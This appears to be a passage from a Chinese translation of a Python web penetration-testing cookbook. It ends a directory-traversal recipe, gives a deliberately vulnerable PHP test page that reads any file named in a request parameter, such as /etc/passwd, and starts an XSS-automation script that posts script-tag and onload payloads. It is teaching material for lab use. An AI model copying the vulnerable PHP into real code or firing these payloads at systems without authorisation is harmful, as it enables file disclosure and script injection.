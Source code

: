 我们通过查看响应中是否包含我们预期的字符串来检查是否已经实现了我们的目标。如果字符串存在，我们将停止循环，并打印出攻击字符串以及成功攻击的响应。这样可以让我们手动验证攻击是否成功，或者代码是否需要重构，或者 Web 应用程序是否存在漏洞。

```py
    i = i+1
  i = 0
```

最后，计数器将添加到每个循环，直到达到预设的最大值。一旦达到最大值，它将被设置为下一个攻击字符串。

## 还有更多

这个方法可以通过应用本书其他地方展示的原则来适应通过参数工作。但是，由于页面通过参数调用的罕见性和故意的简洁性，这一点没有提供。

正如前面提到的，这可以通过添加额外的文件及其常见的字符串来扩展。一旦已经确定了目录遍历和到达根目录所需的深度，也可以扩展到抓取所有有趣的文件。

以下是一个 PHP 网页，可以让您在自己的构建上测试此脚本。只需将其放在您的`var/www`目录或您使用的其他解决方案中。不要在未知网络上保持此活动状态：

```py
<?php
echo "Get me /etc/passwd! File Contents";
if (!isset($_REQUEST['id'])){
header( 'Location: /traversal/first.php?id=1' ) ;
}
if (isset($_REQUEST['id'])){
  if ($_REQUEST['id'] == "1"){
    $file = file_get_contents("data.html", true);
    echo $file;}

else{
  $file = file_get_contents($_REQUEST['id']);
  echo $file;
}
}?>
```

# 自动化基于 URL 的跨站脚本攻击

反射型跨站脚本攻击通常通过基于 URL 的参数发生。你应该知道什么是跨站脚本攻击，如果你不知道，我为你感到尴尬。真的吗？我必须解释这个？好吧。跨站脚本攻击是将 JavaScript 注入到页面中。这是黑客入门课程，也是大多数人遇到或听说的第一种攻击。阻止跨站脚本攻击的低效方法主要集中在针对脚本标签，而脚本标签并不是在页面中使用 JavaScript 的必要条件，因此有许多绕过方法。

我们将创建一个脚本，采用各种标准的规避技术，并使用`Requests`库将它们应用于自动提交。我们将知道脚本是否成功，因为要么脚本本身，要么它的早期版本将出现在提交后的页面上。

## 如何做…

我们将使用的脚本如下：

```py
import requests
import sys
url = sys.argv[1]
payloads = ['<script>alert(1);</script>', '<BODY ONLOAD=alert(1)>']
for payload in payloads:
  req = requests.post(url+payload)
  if payload in req.text:
    print "Parameter vulnerable\r\n"
    print "Attack string: "+payload
    print req.text
    break
```
